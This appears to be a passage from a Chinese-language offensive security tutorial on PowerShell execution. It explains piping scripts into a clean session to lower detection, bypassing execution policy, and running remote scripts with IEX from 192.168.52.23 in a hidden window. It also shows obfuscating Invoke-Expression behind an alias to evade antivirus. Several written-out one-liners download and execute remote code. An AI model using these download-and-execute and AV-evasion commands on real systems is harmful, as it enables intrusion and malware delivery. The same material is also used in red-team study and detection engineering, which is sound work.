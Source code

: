 命令解释：

- `Get-Content 1.ps1`：通过`Get-Content`命令逐行读取名为`1.ps1`的PowerShell脚本文件的内容
- `｜`：管道符，用于将一个命令的输出传递作为另一个命令的输入
- `powershell -NoProfile -`：这表示启动一个新的PowerShell进程，`-NoProfile`在启动时不加载任何用户配置文件，这有助于加快启动速度并避免加载可能干扰脚本执行的个性化设置。尾随的`-`符号表示PowerShell应该从标准输入读取要执行的命令。
- 在这个上下文中，整行命令的效果是将`1.ps1`的内容直接通过管道传递到一个新的、干净的PowerShell会话中执行，不经任何中间文件存储，这可以在一定程度上降低被监测到的风险。

2. Bypass执行策略绕过

```powershell
powershell -ExecutionPolicy bypass -File ./1.ps1
```

- `-ExecutionPolicy Bypass`：指定PowerShell的执行策略为`Bypass`，即允许绕过执行策略，这意味着可以执行任何脚本，无论其签名状态如何。
- `-File ./1.ps1`：指定要执行的脚本文件的路径为`./1.ps1`

#### 远程下载

远程下载并通过IEX运行脚本

```powershell
powershell -nop -w hidden -c "IEX (new-object net.webclient).downloadstring('http://192.168.52.23:80/a')"
```

这条命令是在PowerShell中执行远程脚本的一个典型例子：

- `-nop`（NoProfile）：启动PowerShell时不加载任何用户配置文件，这有助于确保脚本行为的一致性，避免配置文件中的设置可能对脚本执行产生影响。
- `-w hidden`：窗口模式设置为隐藏，PowerShell窗口在执行时不会显示，**这通常会被杀软检测到**
- `-c`：指定后面的字符串为要执行的命令。
- `IEX ((new-object net.webclient).downloadstring('http://192.168.52.23:80/a'))`：使用`IEX`（Invoke-Expression）执行从指定URL下载的字符串。这里，`new-object net.webclient`创建一个.NET的WebClient对象，`downloadstring`方法从指定的URL下载脚本内容，并立即执行。

## 绕过AV

### powershell命令混淆

```
powershell set-alias -name cseroad -value Invoke-Expression;cseroad(New-Object Net.WebClient).DownloadString('http://192.168.52.23:80/a')
```

此代码包含以下几个关键部分：

- **`set-alias -name cseroad -value Invoke-Expression`**: `set-alias`命令用于创建一个新的别名。在这里，它将`Invoke-Expression`命令的别名设置为`cseroad`。
- **`cseroad`**: 通过前面设置的别名，这个命令实际上调用了`Invoke-Expression`。此调用表明`cseroad`后面的表达式将被当作PowerShell命令执行。
- **`New-Object Net.WebClient`**: 这部分代码创建了一个`WebClient`对象，该对象用于从网络上下载数据。
- **`DownloadString('http://192.168.52.23:80/a')`**: 这是`WebClient`对象的`DownloadString`方法，用于从指定的URL下载字符串。这通常用于下载并执行远程的PowerShell脚本或其他命令。

```
echo Invoke-Expression(new-object net.webclient).downloadstring('http://192.168.52.23:80/a') | powershell -
```
